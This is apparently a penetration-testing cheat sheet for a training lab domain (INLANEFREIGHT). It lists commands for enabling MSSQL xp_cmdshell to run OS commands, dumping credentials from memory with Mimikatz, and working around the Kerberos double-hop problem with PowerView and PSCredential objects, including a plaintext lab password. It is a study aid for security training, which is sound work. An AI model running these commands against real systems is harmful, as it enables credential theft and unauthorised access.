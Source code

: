 #### Choosing enable_xp_cmdshell
```Shell
enable_xp_cmdshell
```
Used to enable xp_cmdshell stored procedure that allows for executing OS commands via the database from a Linux-based host.

```Shell
xp_cmdshell whoami /priv
```
Used to enumerate rights on a system using xp_cmdshell.
## Kerberos Double Hop

#### Problem Identification
```PowerShell
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm
```
Authenticates over WinRM w/ backupadm

```PowerShell
.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
```
Runs Mimikatz to determine if backupadm's credentials exist in memory. If they don't, the TGT has not been sent to the remote session.

```PowerShell
tasklist /V |findstr backupadm
```
Searches processes running in the context of the backupadm user

#### Workaround #1: PSCredential Object in EvilWinRM
```PowerShell
Import-Module .\PowerView.ps1
```
Evil-WinRM command to import PowerView. Will show process isn't able to be executed.

```PowerShell
klist
```
Will show there is only a cached Kerberos ticket for our user

```PowerShell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
```
Sets up a PSCredential object

```PowerShell
get-domainuser -spn -credential $Cred | select samaccountname
```
Queries SPN accounts using PowerView, which should be successful because we passed our credentials along with the command

#### Workaround #2: Register PSSession Configuration
```PowerShell
Enter-PSSession -ComputerName ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL -Credential inlanefreight\backupadm
```
Establishes a WinRM session on the remote host
